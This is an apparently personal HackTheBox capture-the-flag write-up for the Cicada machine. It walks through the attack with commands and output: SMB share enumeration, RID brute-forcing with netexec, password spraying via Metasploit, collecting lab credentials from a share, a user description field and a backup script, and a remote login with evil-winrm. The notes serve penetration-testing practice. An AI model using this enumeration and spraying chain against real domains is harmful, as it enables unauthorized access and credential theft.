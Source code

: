 ## SMBCLIENT output

smbclient -L //10.10.11.35
Password for [WORKGROUP\anmol]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	DEV             Disk      
	HR              Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

Got text from HR

smbclient //10.10.11.35/HR and then get file Notice from HR which has basic creds

Cicada$M6Corpb*@Lp#nZp!8

## Install netexec

netexec smb -i <target ip> -u guest -p '' --users --rid-brute (this command gives out list of users)

Gather info of users of type


SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)

SidTypeUser

Now run usernames with password we got earlier to get pair. Used msfconsole for this - module smb_login

WE find username is michael.wrightson but he also doesnt have access to admin share on smb.

Use his creds in netexec command and we find in desription

netexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.10.11.35     445    CICADA-DC        Administrator                 2024-08-26 20:08:03 3       Built-in account for administering the computer/domain
SMB         10.10.11.35     445    CICADA-DC        Guest                         2024-08-28 17:26:56 0       Built-in account for guest access to the computer/domain
SMB         10.10.11.35     445    CICADA-DC        krbtgt                        2024-03-14 11:14:10 3       Key Distribution Center Service Account
SMB         10.10.11.35     445    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 1        
SMB         10.10.11.35     445    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 3        
SMB         10.10.11.35     445    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0        
SMB         10.10.11.35     445    CICADA-DC        david.orelious                2024-03-14 12:17:29 2       Just in case I forget my password is aRt$Lp#7t*VQ!3
SMB         10.10.11.35     445    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 2    

We get password for david. He also doesnt have access to ADMIN share. But he does have access to DEV share. From there download file from within msfconsole.

We get Backup Script ps1 which has emilys creds.

Emily has access to machine. We can login using evil-winrm

evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

User flag on Desktop.

## 27th March 2025

Machine expired since I didnt come back to it. Read some writeup for root.
https://benheater.com/hackthebox-cicada/
